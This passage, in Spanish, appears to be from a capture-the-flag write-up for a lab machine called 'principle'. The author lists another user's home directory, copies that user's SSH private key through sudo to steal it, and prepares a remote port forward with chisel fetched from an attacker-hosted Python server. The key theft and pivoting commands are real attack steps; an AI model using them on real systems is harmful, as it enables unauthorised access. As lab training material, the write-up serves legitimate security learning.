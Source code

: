 ~~~bash
talos@principle:~$ ls -la /home/gehenna
total 36
drwxr-xr-x 4 elohim elohim 4096 Jul  5 08:21 .
drwxr-xr-x 4 root   root   4096 Jul  4 06:11 ..
-rw-r----- 1 elohim elohim    1 Jul  5 08:24 .bash_history
-rw-r----- 1 elohim elohim  261 Jul  5 08:13 .bash_logout
-rw-r----- 1 elohim elohim 3814 Jul  4 05:46 .bashrc
-rw-r----- 1 elohim elohim  777 Jul  4 06:26 flag.txt
drw-r----- 3 elohim elohim 4096 Jul  2 20:52 .local
-rw-r----- 1 elohim elohim   11 Jul  6 11:01 .lock
-rw-r----- 1 elohim elohim  840 Jul  2 20:22 .profile
drwx------ 2 elohim elohim 4096 Jul  5 08:22 .ssh
~~~


### Remote port forwarding

Confirmamos que sí está corriendo el servicio SSH por el puerto 3445 y todo apunta que elohim tiene una clave privada, así que vamos a robársela y darle los permisos adecuados.

~~~bash
talos@principle:~$ touch id_rsa
talos@principle:~$ chmod 666 id_rsa 
talos@principle:~$ sudo -u elohim cp /home/gehenna/.ssh/id_rsa .
talos@principle:~$ chmod 600 id_rsa
~~~

Ahora como el puerto no está expuesto hacia fuera, tratamos de conectarnos con la misma vía local:

~~~bash
talos@principle:~$ ssh -i id_rsa -p 3445 elohim@localhost
bash: /usr/bin/ssh: Permission denied
~~~

Esto no funciona, así que tenemos que realizar un remote port forwarding sin SSH.

> Se podría también copiar el binario de ssh de nuestra máquina atacante.

En este caso utilizaré chisel, que es lo que suelo usar en estos casos. Como ya tenemos su clave privada, copiamos su contenido y creamos un fichero con el mismo en nuestro equipo, sin olvidarse de darle los permisos adecuados con `chmod 600 id_rsa`.

Como siempre, en estos casos crearemos un [servidor en Python](https://kaianperez.github.io/server/) para copiar el chisel a la máquina víctima.

Ahora adjunto una captura de la conexión con chisel (acordarse siempre de dar el permiso de ejecución):

![](/assets/images/principle/chisel.png){: .align-center}
